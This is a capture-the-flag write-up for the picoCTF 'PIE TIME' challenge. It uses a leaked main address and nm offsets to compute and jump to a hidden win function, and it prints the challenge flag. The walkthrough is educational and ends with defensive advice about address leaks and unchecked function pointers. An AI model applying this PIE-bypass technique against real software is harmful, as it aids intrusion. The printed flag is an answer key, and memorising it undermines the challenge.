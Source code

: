 ### PIE TIME

**Description:**    
We are given access to a remote service through **netcat**. The service provides us with the memory address of the `main` function at runtime and asks us to input an address to jump to. The goal is to use this leaked address to calculate the correct memory location of a hidden function (`win`) and execute it in order to obtain the flag.

**Approach:**

1. **Connect to the remote service:**

   ```bash
   nc rescued-float.picoctf.net 53106
   ```

   Example output:
   ```
   Address of main: 0x5e5090adf33d
   Enter the address to jump to, ex => 0x12345:
   ```

2. **Analyze the binary:**

   We use the `nm` tool to extract the memory offsets of the key functions:

   ```bash
   nm vuln | grep ' main\| win'
   ```

   Example output:
   ```
   000000000000133d T main
   00000000000012a7 T win
   ```

   **Explanation:**

   * `nm vuln` lists all the **symbols** (functions and variables) present in the binary along with their offsets.
   * `grep ' main\| win'` filters the output to show only the lines containing `main` or `win`.

   Each line has three parts:

   * `000000000000133d` → This is the **offset** (position) of the function in the binary, in hexadecimal.
   * `T` → This letter indicates the type of symbol. `T` means the function is located in the **Text Section** (i.e., it is executable code). Other letters could appear in different contexts, like `B` for uninitialized data or `D` for initialized data.
   * `main` or `win` → The name of the function.

   The difference between the offsets is:

   ```
   0x133d (main) - 0x12a7 (win) = 0x96
   ```

   This means that the `win` function is located **0x96 bytes before** the `main` function.

3. **Calculate the address to jump to:**

   The binary is compiled with **PIE (Position Independent Executable)**, meaning its actual memory addresses change every time it runs. However, the program leaks the actual memory address of `main` at runtime.

   Using the known static difference between `main` and `win`, we can compute the real address of `win`:

   ```
   real_win = leaked_main - (offset_main - offset_win)
   real_win = leaked_main - 0x96
   ```

4. **Send the correct address:**

   Example calculation:

   * Leaked `main`: `0x5e5090adf33d`
   * Address to jump to: `0x5e5090adf33d - 0x96 = 0x5e5090adf2a7`

   Input this address into the program:

   ```
   0x5e5090adf2a7
   ```

   The program responds:

   ```
   You won!
   picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
   ```

5. **Flag found:**

   ```
   picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
   ```

**How the exploit works:**

1. The program leaks the **actual address of `main`** at runtime, defeating the randomness introduced by PIE for that function.
2. We know the **relative offset** between `main` and `win` by inspecting the binary using `nm`.
3. We subtract this fixed difference from the leaked address to compute the **real runtime address of `win`**.
4. By supplying this address, the program calls the hidden `win` function, revealing the flag.

**About PIE (Position Independent Executable):**

* PIE is a security feature that **randomizes where code is loaded in memory** to make exploitation more difficult.
* If an attacker can leak a valid address (like the address of `main`), they can compute other addresses using **relative offsets**.
* This type of vulnerability highlights the importance of avoiding both **address leaks** and **unchecked function pointers** in secure programming.

**Takeaways:**

* Even with PIE, **address leaks** can make exploitation possible.
* Always validate and restrict user inputs, especially when they control function pointers or addresses.
* Understanding **offsets** and **memory layout** is key in binary exploitation and reverse engineering.
